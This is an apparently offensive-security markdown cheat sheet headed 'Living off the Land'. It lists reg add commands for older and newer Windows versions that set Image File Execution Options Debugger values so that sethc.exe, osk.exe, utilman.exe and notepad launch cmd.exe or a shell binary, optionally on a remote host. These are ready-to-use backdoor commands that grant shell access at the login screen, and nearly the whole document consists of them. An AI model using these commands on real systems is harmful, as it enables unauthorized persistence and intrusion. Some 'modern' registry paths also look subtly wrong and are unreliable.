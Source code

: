 # Living off the Land

TODO: Convert the commands to cmdlets

## Sticky Keys

- For legacy operating systems below Windows 7 and Windows 2008 R2

```
C:\> reg add "[\\<IP>\]HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\sethc.exe" /t REG_SZ /v Debugger /d "C:\windows\system32\cmd.exe" /f
```

- For modern operating systems

```
C:\> reg add "[\\<IP>\]HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Image File Execution Options\sethc.exe" /v Debugger /t REG_SZ /d "C:\windows\system32\cmd.exe" /f
```

## Accessibility On-Screen Keyboard

- For legacy operating systems below Windows 7 and Windows 2008 R2

```
C:\> reg add "[\\<IP>\]HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\osk.exe" /v Debugger /t REG_SZ /d "C:\windows\system32\cmd.exe" /f
```

- For modern operating systems

```
C:\> reg add "[\\<IP>\]HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Image File Execution Options\osk.exe" /v Debugger /t REG_SZ /d "C:\windows\system32\cmd.exe" /f
```

## Utility Manager

- For legacy operating systems below Windows 7 and Windows 2008 R2

```
C:\> reg add "[\\<IP>\]HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\utilman.exe" /t REG_SZ /v Debugger /d "C:\Windows\system32\cmd.exe" /f
```

- For modern operating systems

```
C:\> reg add "[\\<IP>\]HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Image File Execution Options\utilman.exe" /v Debugger /t REG_SZ /d "C:\windows\system32\cmd.exe" /f
```

## Notepad

- For legacy operating systems below Windows 7 and Windows 2008 R2

```
C:\> reg add "[\\<IP>\]HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\notepad" /v Debugger /d "C:\path\to\shell.exe" /f
```

- For modern operating systems

```
C:\> reg add "[\\<IP>\]HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Image File Execution Options\notepad" /v Debugger /d "C:\path\to\shell.exe" /f
```

---
## References

- [RDP hijacking — how to hijack RDS and RemoteApp sessions transparently to move through an organisation](https://doublepulsar.com/rdp-hijacking-how-to-hijack-rds-and-remoteapp-sessions-transparently-to-move-through-an-da2a1e73a5f6)
